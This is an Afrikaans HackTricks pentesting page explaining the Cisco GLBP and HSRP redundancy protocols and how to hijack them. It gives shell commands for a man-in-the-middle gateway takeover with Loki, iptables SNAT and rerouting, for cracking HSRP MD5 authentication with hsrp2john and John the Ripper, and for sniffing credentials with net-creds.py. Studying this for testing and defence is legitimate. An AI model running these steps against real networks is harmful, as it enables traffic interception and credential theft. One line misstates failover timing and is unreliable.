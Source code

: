 # GLBP & HSRP Aanvalle

{% hint style="success" %}
Leer & oefen AWS Hack: <img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Opleiding AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Leer & oefen GCP Hack: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Opleiding GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Controleer die [**inskrywingsplanne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacktruuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag.

</details>
{% endhint %}

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

## FHRP Kaping Oorsig

### Insigte in FHRP
FHRP is ontwerp om netwerkrobuustheid te bied deur meerdere roetery een enkele virtuele eenheid te maak, wat sodoende lasverspreiding en fouttoleransie verbeter. Cisco Systems het prominente protokolle in hierdie reeks ingevoer, soos GLBP en HSRP.

### GLBP Protokol Insigte
Cisco se skepping, GLBP, werk op die TCP/IP-stapel en gebruik UDP op poort 3222 vir kommunikasie. Routers in 'n GLBP-groep ruil "hallo" pakkette uit elke 3 sekondes. As 'n router nie hierdie pakkette vir 10 sekondes stuur nie, word aanvaar dat dit aanlyn is. Hierdie tydsaanduidings is egter nie vas en kan verander word.

### GLBP Operasies en Lasverspreiding
GLBP val op deur lasverspreiding oor roetery met 'n enkele virtuele IP gekoppel aan verskeie virtuele MAC-adresse. In 'n GLBP-groep is elke router betrokke by pakketsending. In teenstelling met HSRP/VRRP, bied GLBP ware lasbalansering deur verskeie meganismes:

- **Gasafhanklike Lasbalansering:** Handhaaf 'n konstante AVF MAC-adres toewysing aan 'n gas, noodsaaklik vir stabiele NAT-konfigurasies.
- **Rondom-Robin Lasbalansering:** Die verstekbenadering, wisselende AVF MAC-adres toewysing tussen versoekende gasheers.
- **Gewigte Rondom-Robin Lasbalansering:** Versprei las gebaseer op voorafbepaalde "Gewig" metriek.

### Sleutelkomponente en Terminologieë in GLBP
- **AVG (Aktiewe Virtuele Gateway):** Die hoofrouter, verantwoordelik vir die toekenning van MAC-adresse aan eweknie-routers.
- **AVF (Aktiewe Virtuele Stuurder):** 'n Router aangewys om netwerkverkeer te bestuur.
- **GLBP Prioriteit:** 'n metriek wat die AVG bepaal, begin by 'n verstek van 100 en wissel tussen 1 en 255.
- **GLBP Gewig:** Weerspieël die huidige las op 'n router, aanpasbaar of deur middel van Objekopsporing.
- **GLBP Virtuele IP-adres:** Diens as die netwerk se verstekpoort vir alle gekoppelde toestelle.

Vir interaksies gebruik GLBP die voorbehoude multicast-adres 224.0.0.102 en UDP-poort 3222. Routers stuur "hallo" pakkette elke 3 sekondes en word as nie-operasioneel beskou as 'n pakkie oor 'n 10-sekondesduur gemis word.

### GLBP Aanval Mekanisme
'n Aanvaller kan die primêre router word deur 'n GLBP-pakket met die hoogste prioriteitswaarde (255) te stuur. Dit kan lei tot DoS of MITM-aanvalle, wat verkeersonderskepping of -omleiding moontlik maak.

### Uitvoering van 'n GLBP Aanval met Loki
[Loki](https://github.com/raizo62/loki_on_kali) kan 'n GLBP-aanval uitvoer deur 'n pakket in te spuit met prioriteit en gewig wat op 255 ingestel is. Voor-aanvalstappe behels die insameling van inligting soos die virtuele IP-adres, die teenwoordigheid van verifikasie, en routerprioriteitswaardes met behulp van gereedskap soos Wireshark.

Aanvalstappe:
1. Skakel na promiskue modus en aktiveer IP-deurstuur.
2. Identifiseer die teikenrouter en haal sy IP op.
3. Genereer 'n Gratis ARP.
4. Spuit 'n kwaadwillige GLBP-pakket in, wat die AVG naboots.
5. Ken 'n sekondêre IP-adres toe aan die aanvaller se netwerkintensiewe, wat die GLBP virtuele IP naboots.
6. Implementeer SNAT vir volledige verkeersigbaarheid.
7. Pas roetery toe om voortdurende internettoegang deur die oorspronklike AVG-router te verseker.

Deur hierdie stappe te volg, posisioneer die aanvaller homself as 'n "man in die middel", in staat om netwerkverkeer te onderskep en te analiseer, insluitend onversleutelde of sensitiewe data.

Vir demonstrasie, hier is die benodigde opdragfragment:
```bash
# Enable promiscuous mode and IP forwarding
sudo ip link set eth0 promisc on
sudo sysctl -w net.ipv4.ip_forward=1

# Configure secondary IP and SNAT
sudo ifconfig eth0:1 10.10.100.254 netmask 255.255.255.0
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE

# Adjust routing
sudo route del default
sudo route add -net 0.0.0.0 netmask 0.0.0.0 gw 10.10.100.100
```
### Passiewe Verduideliking van HSRP Kaping met Opdragbesonderhede

#### Oorsig van HSRP (Hot Standby Router/Redundancy Protocol)
HSRP is 'n Cisco-eienskapsprotokol wat ontwerp is vir netwerkgateway-redundansie. Dit maak die opstelling van verskeie fisiese roetery in 'n enkele logiese eenheid met 'n gedeelde IP-adres moontlik. Hierdie logiese eenheid word bestuur deur 'n primêre router wat verantwoordelik is vir die rigting van verkeer. Anders as GLBP, wat metriese soos prioriteit en gewig gebruik vir vragbalansering, steun HSRP op 'n enkele aktiewe router vir verkeersbestuur.

#### Rolle en Terminologie in HSRP
- **HSRP Aktiewe Router**: Die toestel wat as die gateway optree en verkeersvloei bestuur.
- **HSRP Standby Router**: 'n Reserwe-router, gereed om oor te neem as die aktiewe router misluk.
- **HSRP Groep**: 'n stel roetery wat saamwerk om 'n enkele veerkragtige virtuele router te vorm.
- **HSRP MAC-adres**: 'n virtuele MAC-adres wat toegewys is aan die logiese router in die HSRP-opstelling.
- **HSRP Virtuele IP-adres**: Die virtuele IP-adres van die HSRP-groep, wat as die verstek gateway vir gekoppelde toestelle optree.

#### HSRP Weergawes
HSRP kom in twee weergawes, HSRPv1 en HSRPv2, wat hoofsaaklik verskil in groepkapasiteit, multicast IP-gebruik, en virtuele MAC-adresstruktuur. Die protokol maak gebruik van spesifieke multicast IP-adresse vir diensinligtinguitruiling, met Hello-pakette wat elke 3 sekondes gestuur word. 'n Router word as onaktief beskou as geen pakket binne 'n interval van 10 sekondes ontvang word.

#### HSRP Aanvalsmeganisme
HSRP-aanvalle behels die gedwonge oorneem van die rol van die Aktiewe Router deur 'n maksimum prioriteitswaarde in te spuit. Dit kan lei tot 'n Man-In-The-Middle (MITM) aanval. Essensiële voor-aanvalstappe sluit in om data oor die HSRP-opstelling te versamel, wat gedoen kan word deur Wireshark vir verkeersontleding te gebruik.

#### Stappe om HSRP-verifikasie te omseil
1. Berg die netwerkverkeer wat HSRP-data bevat as 'n .pcap-lêer.
```shell
tcpdump -w hsrp_traffic.pcap
```
2. Haal MD5-hashes uit die .pcap-lêer met behulp van hsrp2john.py.
```shell
python2 hsrp2john.py hsrp_traffic.pcap > hsrp_hashes
```
3. Kraak die MD5-hashes met John the Ripper.
```shell
john --wordlist=mywordlist.txt hsrp_hashes
```

**Uitvoering van HSRP-inspuiting met Loki**

1. Lanceer Loki om HSRP-advertensies te identifiseer.
2. Stel die netwerkintensiewe in promiskue modus en aktiveer IP-deurverwysing.
```shell
sudo ip link set eth0 promisc on
sudo sysctl -w net.ipv4.ip_forward=1
```
3. Gebruik Loki om die spesifieke router te teiken, voer die gekraakte HSRP-wagwoord in, en voer die nodige konfigurasies uit om die Aktiewe Router te simuleer.
4. Nadat die Aktiewe Routerrol verkry is, konfigureer jou netwerkintensiewe en IP-tabelle om die wettige verkeer te onderskep.
```shell
sudo ifconfig eth0:1 10.10.100.254 netmask 255.255.255.0
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
```
5. Wysig die roetetabel om verkeer deur die vorige Aktiewe Router te roeteer.
```shell
sudo route del default
sudo route add -net 0.0.0.0 netmask 0.0.0.0 gw 10.10.100.100
```
6. Gebruik net-creds.py of 'n soortgelyke nut om geloofsbriewe van die onderskepte verkeer vas te vang.
```shell
sudo python2 net-creds.py -i eth0
```

Die uitvoering van hierdie stappe plaas die aanvaller in 'n posisie om verkeer te onderskep en te manipuleer, soortgelyk aan die prosedure vir GLBP-kaping. Dit beklemtoon die kwesbaarheid in redundansieprotokolle soos HSRP en die behoefte aan robuuste sekuriteitsmaatreëls.


## Verwysings
- [https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9](https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9)

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

{% hint style="success" %}
Leer & oefen AWS-hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Opleiding AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Leer & oefen GCP-hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Opleiding GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kontroleer die [**inskrywingsplanne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel haktruuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag.

</details>
{% endhint %}
